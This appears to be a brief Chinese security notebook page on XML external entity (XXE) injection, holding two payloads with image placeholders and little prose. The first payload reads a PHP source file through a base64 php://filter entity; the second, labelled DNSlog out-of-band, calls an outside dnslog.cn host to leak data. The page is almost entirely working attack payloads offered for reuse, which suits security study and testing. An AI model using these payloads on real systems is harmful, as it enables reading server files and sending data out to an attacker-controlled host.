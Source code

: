 ![image-20250121075900178](../../_media/image-20250121075900178.png)





读取文件内容

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "PHP://filter/read=convert.base64-encode/resource=xxe_1.php"> ]>
<a>&xxe;</a>
```

![image-20250225104937017](../../_media/image-20250225104937017.png)



DNSlog外带

```
<?xml version="1.0" ?>
<!DOCTYPE test [
 <!ENTITY % file SYSTEM "http://saqnft.dnslog.cn">
 %file;
]>
<a>&send;</a>
```
